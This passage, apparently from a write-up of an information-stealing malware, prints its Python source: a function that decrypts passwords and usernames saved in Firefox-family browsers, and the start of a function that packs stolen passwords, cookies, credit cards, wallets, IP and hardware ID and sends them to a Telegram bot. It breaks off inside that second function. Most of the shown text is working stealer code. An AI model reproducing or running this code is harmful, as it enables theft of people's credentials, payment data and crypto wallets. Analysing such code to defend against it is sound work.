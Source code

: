 
{% highlight python %}
def gecko_decrypt(
        s_path: str,
        master_password: str = ""
) -> Optional[List[GeckoLogin]]:
    try:
        path = Path(s_path)
        key, algo = get_key(master_password.encode(), path)
        if key is None:
            raise ValueError("Unknown error: try to specify master password")

        logins = getLoginData(path)
        if len(logins) == 0:
            logger.warning("No stored passwords")
        else:
            logger.info("Decrypting login/password pairs")
        result: List[GeckoLogin] = []
        if algo == '1.2.840.113549.1.12.5.1.3' or algo == '1.2.840.113549.1.5.13':
            for login in logins:
                assert login[0][0] == CKA_ID
                res = GeckoLogin()
                res.url = login[2]
                iv = login[0][1]
                ciphertext = login[0][2]
                res.username = unpad(DES3.new(key, DES3.MODE_CBC, iv).decrypt(ciphertext), 8).decode()
                iv = login[1][1]
                ciphertext = login[1][2]
                res.password = unpad(DES3.new(key, DES3.MODE_CBC, iv).decrypt(ciphertext), 8).decode()
                result.append(res)
        logger.debug(result)
        return result
    except KeyboardInterrupt as ki:
        raise ki
    except BaseException as error:
        return logger.error(f"{type(error).__name__}: {str(error)}")
{% endhighlight %}

Below is the snippet of how the logs are parsed and sent to Telegram Bot. The logs are compressed with 7z. 

{% highlight python %}
async def send_to_telegram(
    chat_id: int,
    bot_token: str,
    path: str,
    hwid: str,
    geo: str,
    build_name: str,
    credit_card_count: int,
    cookies_count: int,
    passwords_count: int,
    wallets_count: int,
    steam: bool,
    ip: str
) -> None:
    try:
        async with httpx.AsyncClient(
            base_url=f"https://api.telegram.org/bot{bot_token}",
            http2=True,
            headers={
                "Connection": "close",
                "Accept": "application/json",
                "Accept-Encoding": "gzip, deflate, br"
            }